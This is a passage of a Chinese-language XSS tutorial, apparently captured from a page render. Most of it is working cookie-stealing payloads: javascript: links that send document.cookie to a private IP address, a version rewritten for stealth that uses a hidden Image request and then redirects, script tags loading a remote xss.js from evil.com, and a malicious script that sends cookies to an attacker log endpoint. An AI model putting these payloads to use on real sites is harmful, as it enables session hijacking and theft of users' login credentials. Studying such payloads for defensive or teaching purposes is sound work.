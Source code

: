 <a href="javascript:eval(document.location='http://192.168.0.170/?cookie='+document.cookie)">xss</a>  
  
攻击原理：  
  
当用户点击这个链接时，eval() 函数会执行 document.location 的赋值操作，将当前页面的 URL 重定向到 http://192.168.0.170/?cookie=，并附加当前页面的 Cookie 信息。攻击者可以通过监听 http://192.168.0.170/ 的请求，获取用户在当前页面的 Cookie 信息，从而可能窃取用户的登录凭证或其他敏感信息。  
  
改进：  
  
创建一个新的Image对象，并将其src属性设置为http://192.168.0.170/?cookie=...，这将导致浏览器向该URL发送一个包含用户Cookie信息的请求。紧接着使用window.location将用户重定向到一个正常的页面（例如http://example.com）。由于Image对象的请求是异步的，用户通常不会注意到Cookie被发送。  
  
<a href="javascript:  
  
(function()  
  
{var i=new Image();  
  
i.src='http://192.168.0.170/?cookie='+encodeURIComponent(document.cookie);  
  
window.location='http://example.com';})();">xss</a>  
## 构造远程攻击的paylod  
###### 构建payload，用于引入外部 JavaScript 文件：  
  
当发现存在xss漏洞时，如果只是弹出信息窗口，这样只能证明存在一个xss漏  
  
洞，想再进一步深入的话，就必须学会加载xss攻击payload。  
  
引号可以去掉  
  
<script src="http://www.evil.com/xss.js"></script>  
  
<script src="https://www.evil.com/xss.js"></script>  
  
去掉http，自动选择协议  
  
<script src=//www.evil.com/xss.js></script>  
  
<script src="//192.168.216.99:81/xss.js"></script>  
###### 创建恶意脚本文件  
  
恶意的xss语句实现很多功能，其中最常用的是获取对方浏览器的cookie。  
  
将下面的恶意代码保存为javascript文件  
  
var img=document.createElement("img");  
  
img.src="http://www.evil.com/log?"+escape(document.cookie);  
  
document.body.appendChild(img);  
  
这段代码的主要功能是通过动态创建一个<img>元素，将当前页面的cookie信息发送到指定的服务器地址。  
  
创建<img>元素：  
  
var img = document.createElement("img");  
  
这行代码使用document.createElement方法创建了一个新的<img>元素，并将其赋值给变量img。  
  